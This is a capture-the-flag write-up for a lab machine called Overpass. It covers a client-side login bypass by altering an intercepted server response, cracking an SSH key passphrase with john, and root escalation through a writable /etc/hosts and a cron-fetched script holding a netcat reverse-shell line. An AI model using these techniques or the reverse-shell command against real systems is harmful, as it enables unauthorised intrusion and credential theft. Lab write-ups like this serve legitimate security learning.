 # Overpass

### Overpass
Nmap scan shows ports 22 and 80 open. 
The website allows you to download a password manager. I found a comment in the source code: <br />
![image](https://github.com/user-attachments/assets/09cc9433-cad8-4f1d-a7c2-cd2594ceae2e)<br />
I believe this has something to do with the caesar cipher. Inside the `/downloads` directory there's the source code of the password manager written in Go. I confirm that this is just running ROT47 to "encrypt" the passwords: <br />
![image](https://github.com/user-attachments/assets/740371b8-b745-4bdf-8625-ed6e0469595b)<br />
Furthermore, I found a comment: <br />
![image](https://github.com/user-attachments/assets/b1867382-9eb2-4109-bf95-a11e6ca1b7c2)<br />
Maybe `steve` is a username. Further enumeration of the machine finds `/admin` directory with a login panel.
I tried some bruteforce with hydra but nothing. Looking around the source code I also noted an interesting file called `login.js`: <br />
![image](https://github.com/user-attachments/assets/d0c2b9e2-03f9-47d2-9604-f9cc987c0fb8)<br />
This is the main login function. Based on the credentials we provide, this script will wait for the server response. If the server response is "Incorrect credentials", then authentication fails. But if the server response is not "Incorrect credentials" then it will create a token with the response of the server, and then redirects me to `/admin`. <br />
This code is vulnerable because if I'm able to intercept the server response and modify it to something different than "Incorrect credentials", then the else clause will execute and I will generate a cookie and redirect to `/admin`. <br />
If the server doesn't really check the validity of the cookie then this works. Let's try it: <br />
![image](https://github.com/user-attachments/assets/98f69ba3-f75b-4db4-a29a-fd350cd63ffc)<br />
First intercept the request, then right click on it to enable the interception of the response. Next, modify the response with something random: <br />
![image](https://github.com/user-attachments/assets/2ee139c7-e766-4351-8511-2f486cc9e838)<br />
This gives me access to the admin panel, that contains a private ssh key: <br />
![image](https://github.com/user-attachments/assets/545e9969-8998-45b9-8567-37d118d3143f)<br />
To find the passphrase for james' ssh key, run:

    ssh2john id_rsa_james > hash
    john hash --wordlist=/usr/share/wordlists/rockyou.txt

Now I can login with 

    chmod 600 id_rsa_james
    ssh -i id_rsa_james james@10.10.54.27

Time to privesc. James also uses this overpass software: <br />
![image](https://github.com/user-attachments/assets/6a34c686-52c5-431b-a1b8-9e32fd5220af)<br />
The .overpass file contains a password: <br />
![image](https://github.com/user-attachments/assets/fdc05f68-b87c-4ea9-aec9-ccc6de463d26)<br />
Since I know that this "encryption" is using ROT47, I can find the password using [cyberchef](https://gchq.github.io/CyberChef/). I found james password, but I don't really need it since I'm already logged in. However if I check the cronjobs: <br />
![image](https://github.com/user-attachments/assets/32b4aaef-49c4-4cb4-afdf-aef94380467e)<br /> 
If I check what this script is doing: <br />
![image](https://github.com/user-attachments/assets/1fe9f241-2680-4599-8912-da26c19ad086)<br />
I want to focus on this line `echo "$(date -R) Builds completed" >> /root/buildStatus`. What it comes to my mind is that I might be able to somehow change the output of the `date -R` command, so that root executes a reverse shell.<br />
After studying this topic for a bit,  I realized it's not possible to change what the `date` command displays unless you are already root. So I runned linpeas to check for more stuff and here's an interesting result: <br />
![image](https://github.com/user-attachments/assets/460e1c79-169f-4ea8-8e61-18ffcda762ca)<br />
I have write access to the `/etc/hosts` file. This means that I can modify it so that `overpass.thm` actually points to MY IP address instead of the real one. So if I set a python web server, and then I create a file in `/downloads/src/buildscript.sh` containing a reverse shell, I expect it to work. Let's try it. <br />
First, I modify the `/etc/hosts` file: <br />
![image](https://github.com/user-attachments/assets/36d21002-3b7f-45ee-8147-d497be6520dd)<br />
Next I create a file `/downloads/src/buildscript.sh` with the following code: `busybox nc 10.11.85.53 9001 -e sh`. After a few seconds, I have a reverse shell as root: <br />
![image](https://github.com/user-attachments/assets/1dcec18b-623e-4584-a714-319b2ce3f30c)<br />








